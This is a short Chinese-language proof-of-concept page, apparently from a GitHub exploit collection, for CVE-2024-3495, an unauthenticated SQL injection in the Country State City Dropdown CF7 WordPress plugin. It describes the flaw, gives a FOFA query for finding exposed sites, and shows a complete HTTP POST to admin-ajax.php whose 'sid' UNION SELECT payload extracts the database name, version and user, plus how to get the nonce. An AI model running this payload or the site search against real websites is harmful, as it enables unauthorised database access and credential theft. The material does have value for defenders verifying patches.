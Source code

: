 ## WordPress-Dropdown-CF7插件存在sql注入漏洞(CVE-2024-3495)

  WordPress的Country State City Dropdown CF 7插件是一款用于WordPress网站的插件，它可以与Contact Form 7（CF 7）表单插件配合使用，为用户提供了一个方便的方式来在表单中选择国家、州/省和城市。

  WordPress的Country State City Dropdown CF 7插件在2.7.2之前的版本中容易受到通过'cnt'和'sid'参数的SQL注入的攻击，未经身份验证的远程攻击者可利用此漏洞获取数据库敏感信息，导致凭证密钥等信息泄露，深入利用还可能会对服务器造成严重威胁。这是由于用户提供的参数没有足够的转义以及对现有SQL查询缺乏足够的准备。

## fofa

```
body="/wp-content/plugins/country-state-city-auto-dropdown/"
```

## poc

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 172

action=tc_csca_get_cities&nonce_ajax=[获取的nonce值]&sid=1+or+0+union+select+concat(0x64617461626173653a,database(),0x7c76657273696f6e3a,version(),0x7c757365723a,user()),2,3--+-
```

访问首页获取nonce值

![image-20240527192100424](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405271921470.png)

![image-20240527192111670](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405271921731.png)